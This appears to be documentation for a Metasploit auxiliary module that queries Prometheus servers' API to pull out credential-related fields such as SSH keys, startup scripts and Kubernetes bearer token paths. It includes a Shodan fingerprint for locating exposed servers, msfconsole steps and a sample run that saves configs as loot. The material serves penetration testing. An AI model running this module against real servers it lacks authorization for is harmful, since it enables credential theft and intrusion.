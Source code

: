 ## Vulnerable Application

This module utilizes Prometheus' API calls to gather information about
the server's configuration, and targets. Fields which may contain
credentials, or credential file names are then pulled out and printed.

Targets may have a wealth of information, this module will print the following
values when found:
`__meta_gce_metadata_ssh_keys`, `__meta_gce_metadata_startup_script`,
`__meta_gce_metadata_kube_env`, `kubernetes_sd_configs`,
`_meta_kubernetes_pod_annotation_kubectl_kubernetes_io_last_applied_configuration`,
`__meta_ec2_tag_CreatedBy`, `__meta_ec2_tag_OwnedBy`

Shodan search: `"http.favicon.hash:-1399433489"`

A docker image is [available](https://hub.docker.com/r/prom/prometheus) however
this basic configuration has almost no interest data. Configuring it can be tricky
as it may not start w/o being able to contact the contacted services.

## Verification Steps

1. Install the application or find one on the Internet
1. Start msfconsole
1. Do: `use auxiliary/gather/prometheus_api_gather`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get any valuable information

## Options

## Scenarios

### Prometheus 2.39.1

```
msf auxiliary(gather/prometheus_api_gather) > set rhosts 11.111.11.111
rhosts => 11.111.11.111
msf auxiliary(gather/prometheus_api_gather) > set rport 80
rport => 80
msf auxiliary(gather/prometheus_api_gather) > run
[*] Running module against 11.111.11.111

[*] 11.111.11.111:80 - Checking build info
[+] Prometheus found, version: 2.39.1
[*] 11.111.11.111:80 - Checking status config
[+] YAML config saved to /root/.msf4/loot/20230815174315_default_11.111.11.111_PrometheusYAML_982929.yaml
[+] Credentials
===========

  Name                       Config         Host  Port  Public/Username  Private/Password/Token                               Notes
  ----                       ------         ----  ----  ---------------  ----------------------                               -----
  kubernetes-apiservers      authorization              Bearer           /var/run/secrets/kubernetes.io/serviceaccount/token
  kubernetes-nodes           authorization              Bearer           /var/run/secrets/kubernetes.io/serviceaccount/token
  kubernetes-nodes-cadvisor  authorization              Bearer           /var/run/secrets/kubernetes.io/serviceaccount/token

[*] 11.111.11.111:80 - Checking targets
[+] JSON targets saved to /root/.msf4/loot/20230815174315_default_11.111.11.111_PrometheusJSON_145604.json
[*] 11.111.11.111:80 - Checking status flags
[+] Config file: /etc/config/prometheus.yml
[*] Auxiliary module execution completed
```
